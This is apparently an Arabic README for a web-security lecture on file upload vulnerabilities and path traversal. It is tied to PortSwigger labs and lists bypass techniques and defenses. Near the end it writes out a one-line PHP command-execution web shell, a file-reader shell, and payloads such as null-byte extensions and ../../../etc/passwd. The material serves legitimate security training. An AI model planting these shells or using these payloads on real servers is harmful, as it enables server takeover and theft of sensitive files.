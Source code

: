 # محاضرة File Upload + Path Traversal

## 📚 نظرة عامة

المحاضرة الثالثة من سلسلة أمان تطبيقات الويب - الهجمات من جانب الخادم. تركز هذه المحاضرة على نوعين خطيرين من الثغرات: File Upload Vulnerabilities و Path Traversal (Directory Traversal).

## 🎯 أهداف التعلم

بنهاية هذه المحاضرة، ستكون قادراً على:

- فهم آليات عمل ثغرات رفع الملفات وأنواعها المختلفة
- إتقان تقنيات Path Traversal للوصول للملفات الحساسة
- تطبيق تقنيات تجاوز الفلاتر والحماية
- تنفيذ Web Shells للسيطرة على الخوادم
- تطبيق طرق الحماية الفعالة ضد هذه الهجمات

## 📖 محتوى المحاضرة

### 📤 File Upload Vulnerabilities
- **الأساسيات:** مفهوم ثغرات رفع الملفات وآلية العمل
- **الأنواع:**
  - Unrestricted File Upload
  - Content-Type Bypass
  - Extension Blacklist Bypass
  - Path Traversal in Upload
  - Magic Bytes Bypass
  - Race Conditions
  - PUT Method Upload

### 📁 Path Traversal Attacks
- **الأساسيات:** آلية التنقل في المجلدات
- **التقنيات:**
  - Simple Path Traversal
  - Absolute Path Bypass
  - URL Encoding Bypass
  - Non-Recursive Filter Bypass
  - Start Path Validation Bypass
  - File Extension Validation Bypass

## 🧪 المختبرات العملية - 13 مختبر

### File Upload Labs (7 مختبرات)
1. **Remote code execution via web shell upload** - الاستغلال الأساسي
2. **Content-Type restriction bypass** - تجاوز فحص MIME type
3. **Web shell upload via path traversal** - استخدام Path Traversal
4. **Extension blacklist bypass** - تجاوز القائمة السوداء
5. **Obfuscated file extension** - استخدام Null Byte
6. **Race condition upload** - استغلال Race Conditions
7. **PUT method upload** - استخدام HTTP PUT

### Path Traversal Labs (6 مختبرات)
1. **Simple case** - الحالة الأساسية
2. **Absolute path bypass** - تجاوز بالمسار المطلق
3. **Start of path validation** - تجاوز فحص بداية المسار
4. **Non-recursive stripping** - تجاوز الحذف غير المتكرر
5. **Superfluous URL-decode** - Double URL encoding
6. **Null byte bypass** - تجاوز فحص الامتداد

## 🛡️ طرق الحماية

### حماية File Upload
- Whitelist للامتدادات المسموحة
- فحص MIME type وMagic Bytes
- إعادة تسمية الملفات
- تقييد صلاحيات التنفيذ
- استخدام مجلدات منفصلة

### حماية Path Traversal
- تنظيف المدخلات من traversal sequences
- استخدام Whitelist للملفات المسموحة
- التحقق من المسار باستخدام realpath()
- تقييد الوصول للمجلدات الحساسة

## 🔧 متطلبات المحاضرة

### الأدوات المطلوبة
- **Burp Suite** - لاعتراض وتعديل الطلبات
- **Browser** - للوصول للمختبرات
- **Text Editor** - لإنشاء Web Shells

### المعرفة المسبقة
- أساسيات HTTP وprotocols
- فهم بنية الملفات والمجلدات
- معرفة أساسية بـ PHP/scripting

## ⚡ نصائح للنجاح

1. **ابدأ بالأساسيات** - افهم آلية العمل قبل التقنيات المتقدمة
2. **مارس على كل مختبر** - التطبيق العملي أهم من النظرية
3. **اجمع التقنيات** - استخدم File Upload مع Path Traversal
4. **اختبر الفلاتر** - جرب طرق تجاوز متعددة
5. **راقب الاستجابات** - الأخطاء تحتوي على معلومات مفيدة

## 🚀 التطبيق العملي

### إعداد بيئة الاختبار
```bash
# إنشاء مجلد للتجارب
mkdir file-upload-labs
cd file-upload-labs

# إنشاء web shells بسيطة
echo '<?php echo system($_GET["cmd"]); ?>' > shell.php
echo '<?php echo file_get_contents($_GET["file"]); ?>' > reader.php
```

### أمثلة على Payloads
```bash
# File Upload Payloads
shell.php
shell.php%00.jpg
shell.php.jpg
../../../var/www/html/shell.php

# Path Traversal Payloads
../../../etc/passwd
/etc/passwd
....//....//etc/passwd
..%252f..%252fetc/passwd
```

## 📊 الإحصائيات

- **المدة:** ساعتان تدريبيتان
- **المختبرات:** 13 مختبر عملي من PortSwigger
- **التقنيات:** 12+ تقنية متقدمة
- **مستوى الصعوبة:** متوسط إلى متقدم

## 🔗 روابط مفيدة

- [PortSwigger File Upload Labs](https://portswigger.net/web-security/file-upload)
- [PortSwigger Path Traversal Labs](https://portswigger.net/web-security/file-path-traversal)
- [OWASP File Upload Security](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Path Traversal Prevention Guide](https://owasp.org/www-community/attacks/Path_Traversal)

## 📝 ملاحظات إضافية

هذه المحاضرة تعتبر أساسية لأي متخصص في أمان التطبيقات. ثغرات File Upload وPath Traversal شائعة جداً في التطبيقات الحقيقية وتتيح للمهاجمين الحصول على صلاحيات عالية على الخوادم.

**تذكر:** الهدف من هذه المحاضرة تعليمي بحت لفهم الثغرات وطرق الحماية منها. استخدم هذه المعرفة لتأمين تطبيقاتك وليس لأغراض ضارة. 